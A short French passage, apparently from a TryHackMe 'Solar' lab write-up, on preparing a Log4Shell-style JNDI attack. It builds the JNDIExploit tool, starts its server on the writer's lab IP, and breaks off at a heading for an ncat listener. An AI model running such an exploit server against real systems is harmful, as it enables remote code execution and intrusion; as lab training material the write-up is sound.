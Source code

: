 [https://github.com/avergnaud/JNDIExploit](https://github.com/avergnaud/JNDIExploit)

Plan (*attention les IP ne correspondent pas aux commandes ci-dessous*) :

![avec JNDIExploit](doc/thm_solar_v2.drawio.svg?raw=true)

### Préparation : JNDIExploit

Si besoin, recompiler le jar
```
mvn clean package
```

Exécuter
```
java -jar target/JNDIExploit-1.0-SNAPSHOT.jar -i 10.9.2.236 -p 8888
```
(`10.9.2.236` est mon IP)

### Préparation : le listener ncat
